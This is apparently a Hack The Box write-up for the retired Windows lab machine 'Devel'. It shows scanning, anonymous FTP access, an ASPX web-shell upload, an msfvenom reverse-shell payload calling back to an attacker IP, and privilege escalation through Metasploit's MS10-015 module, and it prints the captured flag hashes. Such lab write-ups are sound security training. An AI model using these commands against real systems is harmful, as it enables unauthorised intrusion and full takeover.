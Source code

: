 ```yaml
---
title: HTB Machine Deval May 2025
published: 2025-05-16
description: Writeup of HTB Deval Machine.
tags: [B2R, HTB, Easy, Retired, Windows, Metasploit, IIS, ASP DotNet]
image: "images/cover.png"
category: HTB Machine Writeups
draft: false
---
```


# Scanning

## Rustscan

- Ports Scan using rustscan

![Pasted image 20250516011901.png](images/Pasted_image_20250516011901.png)

```bash
_______________________________________                                                      
 http://discord.skerritt.blog         :                                                      
 https://github.com/RustScan/RustScan :                                                      
--------------------------------------                                                       
Scanning ports faster than you can say 'SYN ACK'                                                                    
~] The config file is expected to be at "/home/kali/.rustscan.toml"                          
~] File limit higher than batch size. Can increase speed by increasing batch size '-b 924'.  

open 10.10.10.5:21
open 10.10.10.5:80                                                                            
```

## Nmap

```bash
nmap -sC -sV -T5 -A -p21,80 -oA nmap/initials 10.10.10.5
```

```bash
# Nmap 7.94SVN scan initiated Fri May 16 01:17:17 2025 as: nmap -sC -sV -T5 -A -p21,80 -oA nmap/initials 10.10.10.5
Nmap scan report for 10.10.10.5 (10.10.10.5)
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 16 01:17:37 2025 -- 1 IP address (1 host up) scanned in 20.13 seconds
```

- Based on the scan results, only IIS Web Server and FTP services are running on the target, with no other open ports detected.
- The target is running Windows with Microsoft IIS 7.5 web server.
- FTP is running on port 21 with anonymous login enabled.
- HTTP is running on port 80 serving a default IIS 7.5 page.

# Enumeration

- FTP is accessible using simple credentials: `user:anonymous` and `password:<blank>` login.

![Pasted image 20250516012204.png](images/Pasted_image_20250516012204.png)

- Downloaded all available files using the following commands to analyze their contents:

```bash
wget -r -l 10 --ftp-user='anonymous' --ftp-password='' ftp://10.10.10.5/aspnet_client/*  

wget -r -l 10 --ftp-user='anonymous' --ftp-password='' ftp://10.10.10.5/iisstart.htm 

wget -r -l 10 --ftp-user='anonymous' --ftp-password='' ftp://10.10.10.5/welcome.png
```

- Initial analysis revealed no immediately useful information from these files.
- Performed directory brute forcing with multiple tools and wordlists:

```bash
# Used multiple wordlists for thorough enumeration
https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/Web-Servers/IIS.txt

/usr/share/dirb/wordlists/common.txt

/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

- Directory brute forcing yielded no additional interesting directories or files.
- Critical discovery: FTP upload directory appears to be the same as the web root directory. This means files uploaded via FTP would be accessible through the web server.
- This configuration presents a significant vulnerability as we can upload an ASP.NET web shell through FTP and then execute it via the web server.

# Exploitation

![Pasted image 20250516014457.png](images/Pasted_image_20250516014457.png)

![Pasted image 20250516014529.png](images/Pasted_image_20250516014529.png)

![Pasted image 20250516014547.png](images/Pasted_image_20250516014547.png)

- Successfully confirmed access via basic web shell.
- For improved post-exploitation capabilities, generated a Meterpreter shell using:

## Metasploit Stuff

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=10.10.16.10 LPORT=1337 \
  -f aspx \
  -o msf_shell.aspx
```

- Transferred the payload to the victim machine via FTP.
- Set up a Metasploit handler to receive the incoming connection.
- Triggered the payload by accessing it through the web server.

![Pasted image 20250516015102.png](images/Pasted_image_20250516015102.png)

![Pasted image 20250516015617.png](images/Pasted_image_20250516015617.png)

# Post Exploitation

## Again Metasploit Stuff

- Used the exploit suggester module to identify potential privilege escalation vectors:

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

![Pasted image 20250516022302.png](images/Pasted_image_20250516022302.png)

- Selected the MS10-015 (KiTrap0d) privilege escalation exploit:

![Pasted image 20250516022334.png](images/Pasted_image_20250516022334.png)

```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
set lhost 10.10.16.10
run
```

- **MS10-015 (KiTrap0d) Vulnerability Background**: MS10-015/CVE-2010-0232 exploits a kernel vulnerability in Windows' Virtual DOS Machine subsystem that improperly handles 16-bit system calls, allowing manipulation of kernel-mode memory. The flaw exists in win32k.sys where the kernel mishandles exceptions during system call processing, enabling attackers to execute arbitrary code with SYSTEM privileges by triggering a controlled exception that corrupts kernel stack pointers. This vulnerability affects multiple Windows versions including Windows 7, which explains its effectiveness on the Devel machine.

- [More On This...............](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-015/CVE-2010-0232.txt)

![Pasted image 20250516022236.png](images/Pasted_image_20250516022236.png)

- Successfully escalated privileges to NT AUTHORITY\SYSTEM, giving complete control over the target system.

![Pasted image 20250516022617.png](images/Pasted_image_20250516022617.png)

- Located and retrieved both user and root flags:

![Pasted image 20250516022910.png](images/Pasted_image_20250516022910.png)

- User Flag:

```lua
d356b7b47e9b90cfd11c33d16bcc30d8
```

- Root Flag:

```lua
1db38188c79211dbcbf76001749afe01
```